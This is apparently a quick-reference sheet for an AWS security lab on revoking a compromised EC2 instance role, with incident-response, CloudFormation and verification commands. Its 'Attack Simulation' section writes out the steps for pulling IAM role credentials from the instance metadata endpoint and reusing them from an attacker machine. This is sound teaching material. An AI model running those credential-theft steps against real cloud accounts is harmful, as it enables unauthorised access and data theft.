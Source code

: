 # AWS Security Role Invalidation - Quick Reference

## Essential Commands

### Attack Simulation
```bash
# 1. Connect to EC2 instance
aws ssm start-session --target i-xxxxxxxxxxxxxxxxx

# 2. Extract role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 3. Get credentials (replace ROLE_NAME)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME

# 4. Test access from instance
aws s3 ls
aws ec2 describe-instances --region us-east-1

# 5. Configure stolen credentials (on attacker machine)
export AWS_ACCESS_KEY_ID=ASIXXXXXXXXXXXXXXXXX
export AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
export AWS_SESSION_TOKEN=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

# 6. Verify external access
aws s3 ls
```

### Incident Response
```bash
# 1. Revoke sessions (AWS Console)
IAM → Roles → A4L-InstanceRole → Revoke active sessions

# 2. Verify attack blocked (from attacker machine)
aws s3 ls  # Should fail

# 3. Get affected instances
aws ec2 describe-instances \
  --filters "Name=iam-instance-profile.arn,Values=*A4L-InstanceRole*" \
  --query "Reservations[].Instances[].InstanceId" \
  --output text

# 4. Restart instances
aws ec2 stop-instances --instance-ids i-xxxxx i-xxxxx
aws ec2 wait instance-stopped --instance-ids i-xxxxx i-xxxxx
aws ec2 start-instances --instance-ids i-xxxxx i-xxxxx
aws ec2 wait instance-running --instance-ids i-xxxxx i-xxxxx

# 5. Verify service restored
aws ssm start-session --target i-xxxxxxxxxxxxxxxxx
aws s3 ls  # Should work
```

### Stack Management
```bash
# Deploy infrastructure
aws cloudformation create-stack \
  --stack-name aws-security-role-invalidation \
  --template-body file://infrastructure/A4LHostingInc.yaml \
  --capabilities CAPABILITY_IAM

# Check stack status
aws cloudformation describe-stacks \
  --stack-name aws-security-role-invalidation \
  --query 'Stacks[0].StackStatus'

# Get stack outputs
aws cloudformation describe-stacks \
  --stack-name aws-security-role-invalidation \
  --query 'Stacks[0].Outputs'

# Delete stack
aws cloudformation delete-stack \
  --stack-name aws-security-role-invalidation
```

### Verification Commands
```bash
# Check instance profile
aws ec2 describe-instances \
  --instance-ids i-xxxxxxxxxxxxxxxxx \
  --query 'Reservations[0].Instances[0].IamInstanceProfile.Arn'

# View revocation policy
aws iam get-role-policy \
  --role-name A4L-InstanceRole-XXXXX \
  --policy-name RevokeOldSessions

# Monitor CloudWatch logs
aws logs tail /var/log/secure --follow
aws logs tail /var/log/httpd/access_log --follow
```

## Timeline Reference

| Phase | Action | Duration |
|-------|--------|----------|
| Attack | Credential extraction | < 30 seconds |
| Attack | External configuration | < 2 minutes |
| Response | Session revocation | < 1 minute |
| Response | Attack verification | Immediate |
| Recovery | Instance restart | 5-6 minutes |
| Recovery | Service validation | < 1 minute |

## Key Files & Locations

- **Metadata endpoint**: `http://169.254.169.254/latest/meta-data/`
- **IAM Console path**: `IAM → Roles → [RoleName] → Revoke active sessions`
- **CloudFormation template**: `infrastructure/A4LHostingInc.yaml`
- **Instance logs**: `/var/log/secure`, `/var/log/httpd/access_log`